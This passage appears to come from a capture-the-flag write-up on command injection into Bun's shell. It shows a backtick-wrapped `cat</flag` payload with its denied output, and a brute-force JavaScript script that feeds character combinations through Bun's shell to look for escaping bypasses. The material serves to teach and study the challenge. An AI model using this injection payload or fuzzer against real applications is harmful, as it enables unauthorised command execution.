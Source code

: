 Unfortunately we don't have permission to read from `/flag` directly. We're forced to read it through `/readflag` instead

```sh
❯ bun req.js  
`cat</flag`
/bin/sh: 1: cannot open /flag: Permission denied
NAME="Arch Linux" PRETTY_NAME="Arch Linux" ID=arch BUILD_ID=rolling ANSI_COLOR="38;2;23;147;209" HOME_URL="https://archlinux.org/"
```

At this point I'm out of ideas, I've gotten a "shell" but I can't get anything to work.

What do you do at the end of the world? Are you busy? Will you bruteforce to find patterns?

"When in doubt, fuzz it out" - [GalloDaSballo, 2024](https://x.com/GalloDaSballo/status/1766043245048451495)

`brute.js`
```js
import { $ } from "bun";

const startCharCode = 33;
const endCharCode = 126;

let characters = [];
for (let i = startCharCode; i <= endCharCode; i++) {
  characters.push(String.fromCharCode(i));
}

const totalChars = characters.length;

let lim = 0;
for (let i = 0; i < totalChars; i++) {
  for (let j = 0; j < totalChars; j++) {
    for (let k = 0; k < totalChars; k++) {
      for (let l = 0; l < totalChars; l++) {
        for (let m = 0; m < totalChars; m++) {
          let combination = characters[i] + characters[j] + characters[k] + characters[l] + characters[m];
          if ($.escape(combination) == combination) {
            try {
              lim++;
              console.log(combination);
              await $`echo ${combination}`;
            } catch {
            }
          }
        }
      }
    }
  }
}
```
